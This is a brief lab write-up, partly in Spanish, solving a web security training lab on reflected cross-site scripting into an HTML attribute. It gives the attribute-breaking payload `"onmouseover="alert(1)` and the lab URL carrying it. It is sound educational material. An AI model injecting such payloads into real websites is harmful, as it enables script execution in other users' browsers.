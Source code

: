 # 07 Lab: Reflected XSS into attribute with angle brackets HTML-encoded

```jsx
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
```

Verificamos que el input que ingresamos, se refleja en el titulo de la busqueda

![image.png](07%20Lab%20Reflected%20XSS%20into%20attribute%20with%20angle%20bra%2017efab5460ec81738df6cc5e75f37231/image.png)

Por ende, probamos con estos payloads

1. `"onmouseover="alert(1)`

[https://0a410097038d61b2832f8bee000a009e.web-security-academy.net/?search="onmouseover%3D"alert(1)](https://0a410097038d61b2832f8bee000a009e.web-security-academy.net/?search=%22onmouseover%3D%22alert%281%29)

![image.png](07%20Lab%20Reflected%20XSS%20into%20attribute%20with%20angle%20bra%2017efab5460ec81738df6cc5e75f37231/image%201.png)